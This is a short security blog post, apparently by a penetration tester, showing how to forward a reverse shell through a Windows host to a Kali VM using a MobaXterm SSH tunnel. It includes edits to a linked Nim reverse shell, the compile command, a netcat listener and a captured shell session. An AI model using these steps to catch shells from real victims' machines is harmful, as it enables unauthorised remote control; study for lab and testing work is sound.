 ```yaml
---
layout: post
title: Getting Shells Past NAT  
tags: [MobaX]
---
```


# Getting Shells Through NAT to Kali
I came across a situation where I needed to send a reverse shell to a Kali Linux VM that was not on the same network as the compromised machine. My Windows 10 (hosting the vm) workstation ***was*** on the same network as the compromised machine. One might say "well just change the VM configuration to be on bridged mode." This was not possible for a few reasons. 

I had to figure out a way to send a reverse shell to my Windows 10 machine and have it routed to my Kali VM. This is achieved by a Local Port Forward.

[MobaXterm](https://mobaxterm.mobatek.net/) is a terminal application that has a bunch of functions baked into it. One of those features is the tunnel feature. 

![MobaX](https://raw.githubusercontent.com/0xZon/0xZon.github.io/main/assets/img/MobaXShells/img1.png)

We can create a new SSHTunnel that will send the reverse shell to my kali machine. The "Forwarded port" will be the port that the shell will connect to on Windows, in my case, it will be 9000. The SSH Server section is the IP address, username, and port that SSH is running on. The "Remote Server & Port" will be the loopback address and what port kali will be listening on for the shell (9001)

![MobaX](https://raw.githubusercontent.com/0xZon/0xZon.github.io/main/assets/img/MobaXShells/img2.png)

# Payload Configuration
When we configure our payload the IP will be our Windows 10 machine `10.10.10.5` and the port we want to connect to will be the forwarded port `9000`. When the payload is received by windows it will forward that traffic to our netcat listener on port `9001`

## Example
For this example, I will use a simple NIM [reverse shell](https://github.com/0xZon/Offensive-Nim/blob/main/revShell.nim)

I went and changed the two variables at the bottom to look like this
```
[snip]
let port = 9000

let listener = 10.10.10.5
[snip]
```

Compile it
```
nim c -d:mingw -d:strip --opt:size revShell.nim
```

Set up a listener on kali
```
nc -lvnp 9001
```

Transfer the executable over to the victim machine and execute it. Once it's running the shell will catch 
```
┌──(kali㉿kali)-[~/nim/windows]
└─$ nc -lvnp 9001
listening on [any] 9001 ...
connect to [127.0.0.1] from (UNKNOWN) [127.0.0.1] 34638
dir
 Volume in drive E is ssd
 Volume Serial Number is B214-E4A7

 Directory of E:\NIM

04/18/2022  08:11 PM    <DIR>          .
04/18/2022  08:11 PM    <DIR>          ..
04/18/2022  08:11 PM           145,920 revShell.exe
04/18/2022  08:08 PM           165,888 tcpReverseShell.exe
               2 File(s)        311,808 bytes
               2 Dir(s)  232,154,320,896 bytes free
```
